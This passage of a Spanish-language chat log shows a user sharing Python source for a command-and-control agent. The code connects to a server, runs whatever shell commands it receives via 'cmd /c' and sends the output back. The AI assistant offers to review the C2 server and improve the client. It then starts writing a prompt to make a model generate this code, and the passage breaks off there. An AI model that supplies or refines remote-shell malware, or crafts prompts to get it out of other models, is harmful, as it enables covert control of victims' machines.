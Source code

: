 * * *

¿Quieres que revise también el lado del servidor para ver si algo puede estar fallando allí? ¿O quieres que te ayude a modificar el cliente para que maneje mejor estos casos?

## Prompt:
que prompt genera esto más o menos: def connect_to_c2_server():
    agent_id = get_agent_id()  # Obtener el ID antes de conectarse
    if agent_id is None:
        print("Error: No se encontró el ID del agente.")
        return  
    try:
        agent_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        agent_socket.connect((SERVER_IP, SOCKET_PORT))
        print(f"Agente {agent_id} conectado al servidor.")
        agent_socket.send(str(agent_id).encode('utf-8')) # Enviar el ID del agente al servidor

        while True:
            command = agent_socket.recv(1024).decode('utf-8')
            if not command:
                    print("Servidor cerró la conexión.")
                    break
            if command.lower() == "exit":
                break
            if command:
                if command.split(" ")[0] == 'cd': # Cambiar de directorio de trabajo
                    try:
                        os.chdir(" ".join(command.split(" ")[1:]))
                        output = "{}".format(os.getcwd())
                    except FileNotFoundError:
                        output = "Error: Directorio no encontrado."
                    except Exception as e:
                        output = f"Error al cambiar de directorio: {e}"
                else:
                    # Ejecutar el comando y obtener el resultado
                    result = subprocess.run(['cmd', '/c', command], capture_output=True, text=True)
                    if result.stdout: # Si el comando produjo salida, enviarla
                        output = result.stdout
                    elif result.stderr:# Si el comando produjo error, enviarlo
                        output = result.stderr
                    else: # Si no hubo salida ni error, enviar un mensaje indicando que no hubo salida
                        output = "Comando ejecutado correctamente."
                agent_socket.send(output.encode('utf-8'))
        agent_socket.close()
    except Exception as e:
        print(f"Error al conectar al servidor: {e}")

## Response:
El código que compartiste parece una parte de un **agente (cliente) de un C2 (Command and Control) server**, típicamente usado en entornos de prueba o simulaciones de seguridad (como en CTFs o red teaming). Si quisieras generar este código con un prompt en un modelo como ChatGPT, podrías usar algo como:
